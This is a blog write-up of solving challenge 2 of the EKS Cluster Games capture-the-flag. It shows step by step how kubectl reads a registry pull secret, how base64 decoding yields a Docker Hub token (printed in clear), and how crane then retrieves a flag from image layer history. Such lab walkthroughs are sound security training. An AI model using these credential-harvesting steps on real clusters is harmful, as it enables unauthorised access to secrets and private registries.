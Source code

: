 ```yaml
---
title: "EKS Cluster Games: Challenge 2"
date: 2023-11-09T11:28:47+02:00
draft: true
toc: true
series:
  - EKS-cluster-games
---
```


This is my writeup of how I solved the second challenge of the [EKS Cluster Games](https://eksclustergames.com/).

## Challenge 2 - Registry Hunt

The challenge hints that we should check the container registries. They also link to a rather long post (18 minute read) on [Hells KeyChain](https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql). It seemed long, so I skipped it initially.

> A thing we learned during our research: always check the container registries.

### Recon: Pods and secrets

We are told we have the following permissions

```json
{
  "secrets": ["get"],
  "pods": ["list", "get"]
}
```

So, we can't list secrets, but let's see which pods are running

```shell
$ kubectl get pods
NAME                    READY   STATUS    RESTARTS   AGE
database-pod-2c9b3a4e   1/1     Running   0          30h
```
Just a single pod. Does it have anything interesting?

```javascript
$ k get pod database-pod-2c9b3a4e -o json
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "annotations": {
            "kubernetes.io/psp": "eks.privileged",
            [...]
        },
        [...]
    },
    "spec": {
        "containers": [
            {
                "image": "eksclustergames/base_ext_image",
                "imagePullPolicy": "Always",
                [...]
                "volumeMounts": [
                    {
                        "mountPath": "/var/run/secrets/kubernetes.io/serviceaccount",
                        "name": "kube-api-access-cq4m2",
                        "readOnly": true
                    }
                ]
            }
        ],
        [...]
        "imagePullSecrets": [
            {
                "name": "registry-pull-secrets-780bab1d"
            }
        ],
        [...]
        "volumes": [
            {
                "name": "kube-api-access-cq4m2",
                [...]
            }
        ]
    },
    "status": {
        [...]
        "containerStatuses": [
            {
                "containerID": "containerd://b427307b7f428bcf6a50bb40ebef194ba358f77dbdb3e7025f46be02b922f5af",
                "image": "docker.io/eksclustergames/base_ext_image:latest",
                "imageID": "docker.io/eksclustergames/base_ext_image@sha256:a17a9428af1cc25f2158dfba0fe3662cad25b7627b09bf24a915a70831d82623",
                [...]
            }
        ],
        [...]
    }
}
```

I noted a couple of things

- Is it running `eks.privileged`
- It always pulls the image
- It has an `imagePullSecret` named `registry-pull-secrets-780bab1d`
- It has a volume mounted called `kube-api-access-cq4m2`

### Looking into the secrets

Can we get the `kube-api-access-cq4m2` secret? No, it seems not (it later hit me that it was a volume, not a secret)

```
$ k get secret kube-api-access-cq4m2
Error from server (NotFound): secrets "kube-api-access-cq4m2" not found
```

What about the `imagePullSecret`?

```sh
$ k get secret registry-pull-secrets-780bab1d -o json
{
    "apiVersion": "v1",
    "data": {
        ".dockerconfigjson": "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19"
    },
    "kind": "Secret",
    "metadata": {
        "annotations": {
            "pulumi.com/autonamed": "true"
        },
        "creationTimestamp": "2023-11-01T13:31:29Z",
        "name": "registry-pull-secrets-780bab1d",
        "namespace": "challenge2",
        "resourceVersion": "897340",
        "uid": "1348531e-57ff-42df-b074-d9ecd566e18b"
    },
    "type": "kubernetes.io/dockerconfigjson"
}
```

Success, it had a `.dockerconfigjson`! This seemed to be credentials for the registry at `index.docker.io/v1/`

```sh
$ echo "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19" | base64 -d
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}
$ echo ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw== | base64 -d
eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo%
```
This might be 1 of the secrets which the Hells KeyChain refers to: the private container registry password.

### Getting stuck

What next? After hitting a dead end with the `kube-api-access-cq4m2` I started reading the post on Hells KeyChain.
I found they've found an `imagePullSecret` in the same manner as I.

They also taled about secrets being leaked in Docker layers. Let us look into that.

### Peeling off the layers

The challenge page mentioned a utility called `crane` was installed. So I started toying with it.

I found I could log in to the container registry using `crane auth login docker.io -u eksclustergames -p thepasswordfromabove`, and I was able to interact with the registry

```sh
$ crane ls eksclustergames/base_ext_image
latest
```

I tried listing other images, but there were none. I then searched for a way to get info on the layers, and found that `crane config` would provide me the history of an image

```sh
crane config eksclustergames/base_ext_image
{
    "architecture": "amd64",
    "config": {
        "Env": [
            "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
        ],
        "Cmd": [
            "/bin/sleep",
            "3133337"
        ],
        "ArgsEscaped": true,
        "OnBuild": null
    },
    "created": "2023-11-01T13:32:18.920734382Z",
    "history": [
        {
            "created": "2023-07-18T23:19:33.538571854Z",
            "created_by": "/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "
        },
        {
            "created": "2023-07-18T23:19:33.655005962Z",
            "created_by": "/bin/sh -c #(nop)  CMD [\"sh\"]",
            "empty_layer": true
        },
        {
            "created": "2023-11-01T13:32:18.920734382Z",
            "created_by": "RUN sh -c echo 'wiz_eks_challenge{REDACTED}' > /flag.txt # buildkit",
            "comment": "buildkit.dockerfile.v0"
        },
        {
            "created": "2023-11-01T13:32:18.920734382Z",
            "created_by": "CMD [\"/bin/sleep\" \"3133337\"]",
            "comment": "buildkit.dockerfile.v0",
            "empty_layer": true
        }
    ],
    "os": "linux",
    "rootfs": {
        "type": "layers",
        "diff_ids": [
            "sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f",
            "sha256:a70cef1cb742e242b33cc21f949af6dc7e59b6ea3ce595c61c179c3be0e5d432"
        ]
    }
}
```

and there is was, the command that created the layer containing the flag: `wiz_eks_challenge{REDACTED}` :rocket:


### Could it have been simpler?

Would we have been able to do this without the imagePullSecret? No, it seems not

```sh
$ crane auth logout docker.io
2023/11/02 21:05:35 logged out via /home/user/.docker/config.json
$ crane config eksclustergames/base_ext_image
Error: fetching config: reading image "eksclustergames/base_ext_image": GET https://index.docker.io/v2/eksclustergames/base_ext_image/manifests/latest: UNAUTHORIZED: authentication required; [map[Action:pull Class: Name:eksclustergames/base_ext_image Type:repository]]
```

